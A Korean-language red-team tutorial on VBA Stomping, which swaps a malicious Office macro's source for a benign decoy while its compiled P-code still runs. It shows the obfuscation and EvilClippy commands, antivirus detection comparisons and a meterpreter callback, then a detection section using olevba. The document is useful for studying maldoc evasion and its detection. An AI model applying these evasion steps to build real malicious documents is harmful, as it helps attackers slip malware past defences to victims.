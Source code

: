 # VBA Stomping

VBA Stomping 은 2018년도 Derbycon 에서 Harold Ogden (@haroldogden), Kirk Sayre (@bigmacjpg) and Carrie Roberts (@OrOneEqualsOne) 가 Dr. Vesselin Bontchev 박사의 P-code 연구를 보고 영감을 받아 만들어낸 VBA 매크로 방어 우회 기법 중 하나다.&#x20;

VBA 매크로는 총 3가지 형태로 오피스 제품에 저장된다:&#x20;

1. 소스코드 - 실제로 작성된 VBA 매크로의 소스코드가 압축된 형태&#x20;
2. P-code - #1번을 기반으로 컴파일된 어셈블리어와 비슷한 형태 - 캐시된 형태로, 똑같은 오피스 버전에서 열리면 소스코드가 아닌 P-code가 대신 실행된다&#x20;
3. Execode - P-Code가 여러번 실행될 시 P-code를 tokenize 한 형태로 저장되는 형태 - 이건 일단 무시한다.&#x20;

여기서 재밌는 점은 소스코드를 flexhex 등의 툴을 이용해 다른 VBA 매크로로 변경해도 P-code는 이전 소스코드를 담고 있다는 것이다. 예를 들어,&#x20;

* 소스코드 - 악성 VBA
* P-code - 악성 VBA

의 형태로 저장되어 있는 문서를 flexhex 등의 툴로 열어 소스코드 바이트를 직접 수정해주면&#x20;

* 소스코드 - 평범한 VBA, 혹은 null-byte 형태로 아무것도 없는 VBA
* P-code - 악성 VBA

위 상태가 되며, 이 상태로 문서를 열면 소스코드가 아니라 P-code 가 실행된다. 유의할 점은 만들어진 오피스 버전과 문서가 열리는 오피스 버전이 같아야 P-code 가 실행된다는 것이다. 따라서 공격자의 입장에서는 피해자 호스트에 어떤 오피스 제품이 설치되어 있는지를 알아낸 다음에 사용할 수 있는 기법이다. 이는 이메일 헤더와 유저 에이전트 등으로 정보 수집을 통해 알아낼 수 있다.&#x20;

### 실습&#x20;

[오피스 VBA 매크로 페이지](오피스-매크로.md)에서 사용했던 코드를 그대로 사용한다. 단, 작전보안을 위해 [VisualBasicObfuscator](https://github.com/mgeeky/VisualBasicObfuscator)를 이용해 코드를 난독화한다. 스키디의 악용을 막기 위해 툴의 라인 647에서 발생하는 에러를 고치는 법은 따로 설명하지 않는다.&#x20;

```
https://github.com/mgeeky/VisualBasicObfuscator.git

# range() 함수와 관련해서 간단한 수정을 하면 제대로 실행된다. 
647# for s in range(len(longLine) / SPLIT + 1):

# 난독화 진행 
┌──(root㉿kali)-[/opt/VisualBasicObfuscator]
└─# python3 obfuscate.py payload.vbs -o payload-obfuscated.vbs

    :: Visual Basic script obfuscator for thy red teaming needs!
    Mariusz Banach / mgeeky, '17, '20; <mb [at] binary-offensive.com>
    v: 0.2

[+] Input file:         payload.vbs
[+] Output file:        payload-obfuscated.vbs
[+] Input file length: 1205
[+] Obfuscated file length: 5742
[+] Obfuscated code has been written to:
                payload-obfuscated.vbs
```

이후 VBA Stomping에 사용될 가짜 VBA 코드를 준비한다. 이제 VBA 소스코드는 가짜 VBA 코드로 덮어씌워지고, P-code에는 위에서 만든 악성 VBA 코드가 제대로 들어가 있을 것이다. 이는 추후 대응방안 섹션에서 확인한다.&#x20;

EvilClippy 툴을 이용해 VBA stomping 과 메타데이터 삭제, 모듈 이름 랜덤화, GUI에서 VBA 감추기 등의 방어 우회 기법을 적용한다.&#x20;

VBA Stomping에 사용될 가짜 VBA 코드는 다음과 같다.&#x20;

```
Sub Document_Open()
    Macro1
End Sub

Sub AutoOpen()
    Macro1
End Sub

Sub Macro1()
'
' Macro1 Macro
'
'
    Range("B1").Select
    ActiveCell.FormulaR1C1 = "Hello World"
    Range("B2").Select
End Sub
```

이제 EvilClippy를 사용해 VBA Stomping을 진행한다.&#x20;

```
 # EvilClippy 설치 - Visual studio -> x64 Native Tools command prompt 
 csc /reference:OpenMcdf.dll,System.IO.Compression.FileSystem.dll /out:EvilClippy.exe *.cs
 
 # EvilClippy 사용 
 .\EvilClippy.exe -s .\fakecode.vba .\sample-payload-obs.doc -g -d -r -u 
```



VBA Stomping 과 난독화를 진행하지 않은 일반 페이로드의 탐지율을 확인해보자.&#x20;

![일반 페이로드 ](<../../.gitbook/assets/image (5) (1) (1).png>)

VBA stomping만 적용한 페이로드의 탐지율을 다음과 같다.&#x20;

![VBA stomping을 적용한 페이로드](<../../.gitbook/assets/image (11) (1) (1).png>)

VBA stomping과 난독화를 둘 다 적용한 페이로드다. 몇몇 AV들은 스캔을 포기한 것을 볼 수 있다.

![VBA stomping과 난독화를 적용한 페이로드 ](<../../.gitbook/assets/image (9) (1).png>)



이후 페이로드를 실행하면 meterpreter가 돌아온다.&#x20;

![](../../.gitbook/assets/vba-stomping-2.gif)

### 분석/대응 방안&#x20;

VBA Stomping 기법과 P-code의 악용 방법은 2018년도에 나왔기 때문에 2022년도 기준으로 많은 툴들이 이를 탐지한다. 예를 들어 [oletools](https://github.com/decalage2/oletools/wiki/olevba) 툴을 이용해 VBA Stomping 기법을 적용한 파일을 분석해보자.&#x20;

olevba 를 통해 분석해보면 다음과 같은 VBA 매크로와 P-code가 나온다.&#x20;

![](<../../.gitbook/assets/image (10) (1).png>)

VBA 매크로인 `Macros/VBA/ThisDocument` 과 `Macros/VBA/NewMacros` 에서는 수상한 VBA 매크로가 발견되지 않는다. EvilClippy가 위에서 가짜 VBA 매크로로 VBA Stomping을 진행했기 때문이다.&#x20;

하지만 P-code 섹션을 보면 원래 있었던 VBA 페이로드가 보인다. 난독화를 진행했기 때문에 `Create, ShowWindow, Xor, Base64 Strings, VBA Stomping` 등의 수상한 키워드들이 보인다.&#x20;

`ThisDocument` 와 `NewMacros` 의 코드는 다음과 같이 나온다&#x20;

```
┌──(root㉿kali)-[~/blog]                                                                              
└─# olevba -a sample-payload_EvilClippy.doc -c                                 
olevba 0.60.1 on Python 3.10.4 - http://decalage.info/python/oletools                                 
===============================================================================
FILE: sample-payload_EvilClippy.doc                                                                   
Type: OLE                                                                                             
-------------------------------------------------------------------------------
VBA MACRO ThisDocument.cls                                                                            
in file: sample-payload_EvilClippy.doc - OLE stream: 'Macros/VBA/ThisDocument' 
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -  
Sub Document_Open()                                                                                   
    Macro1                                                                                            
End Sub                                                                                               
                                                                                                      
Sub AutoOpen()                                                                                                                                                                                               
    Macro1                                                                                            
End Sub                                                                                               
                                                   
Sub Macro1()                                                                                          
'                                                                                                     
' Macro1 Macro                                                                                        
'                                                                                                     
'                                                                                                     
    Range("B1").Select                                                                                
    ActiveCell.FormulaR1C1 = "Hello World"                                                            
    Range("B2").Select                                                                                
End Sub                              
```

그 이후 P-code를 살펴보면 다음과 같은 코드가 나온다. 난독화된 VBA 코드가 또 다시 P-code 형태로 변했기 때문에 읽기 힘들지만, 적어도 악성 행위를 하는 VBA를 살펴볼 수는 있다.&#x20;

```
VBA MACRO VBA_P-code.txt                                                                                                                                                                                     
in file: VBA P-code - OLE stream: 'VBA P-code'                                                        
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -                         
' Processing file: sample-payload_EvilClippy.doc                                                      
' ===============================================================================                                                                                                                            
' Module streams:
' Macros/VBA/ThisDocument - 922 bytes
' Macros/VBA/NewMacros - 9204 bytes
' Line #0:
'       FuncDefn (Sub Document_Open())
' Line #1:
'       ArgsCall test 0x0000 
' Line #2:
'       EndSub 
' Line #3:
'       FuncDefn (Sub AutoOpen())
' Line #4:
'       ArgsCall test 0x0000 
' Line #5:
'       EndSub 

< ... >
                                                                                                                                                                                            
' Line #142:                                                                                                                                                                                                 
'       Ld EqKwFzDJ                                                                                                                                                                                          
'       Ld EqKwFzDJ 
'       FnLen 
'       Ld Ivtp83Fcz 
'       Sub 
'       ArgsLd Left$ 0x0002 
'       St EqKwFzDJ 
' Line #143:
'       EndIfBlock 
' Line #144:
'       Ld EqKwFzDJ 
'       St O9sTsRbm 
' Line #145:
'       EndFunc 
' Line #146:

```



### 레퍼런스&#x20;

{% embed url="https://github.com/bontchev/pcodedmp" %}

{% embed url="https://vbastomp.com/" %}

{% embed url="https://medium.com/walmartglobaltech/vba-stomping-advanced-maldoc-techniques-612c484ab278" %}

{% embed url="https://outflank.nl/blog/2019/05/05/evil-clippy-ms-office-maldoc-assistant/" %}

{% embed url="https://github.com/sevagas/macro_pack" %}

{% embed url="https://github.com/outflanknl/EvilClippy" %}
